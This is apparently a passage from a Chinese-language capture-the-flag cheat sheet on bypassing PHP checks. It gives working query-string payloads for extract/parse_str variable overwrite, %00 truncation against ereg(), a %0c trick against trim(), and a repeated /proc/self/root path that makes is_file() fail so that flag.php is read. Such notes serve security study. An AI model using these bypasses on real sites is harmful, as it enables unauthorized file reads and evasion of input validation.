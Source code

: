 ```
```
```
?_POST[key1]=36d&_POST[key2]=36d
通过parse_str转成$_POST[key1]=36d
通过extract转成$key1=36d
```


^

^
## **%00截断和ereg()函数**
ereg()正则匹配函数
```
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {  //原意c传递必须全字母，但是可以%00截断后，后非字母
    die('error');

}

if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?c=A%00778
正则匹配A满足
反转877A
数值877 即16进制36d
```



^
## **trim()函数绕过**
```
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36'){
    if($num=='36'){
        echo $flag;}

trim() 去除普通空格、制表符(%09)、换行符(%0a)、回车符(%0d)、空字节符(%00)、垂直制表符（%0b），但不去除换页符%0c
?num=%0c36
```
 

^
## **is_file()函数绕过**
```
if(! is_file($file)){
    highlight_file($file);
}
```
要让其认为$file不是一个文件。
```
1、伪协议
2、利用长度溢出认为不是文件
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

```
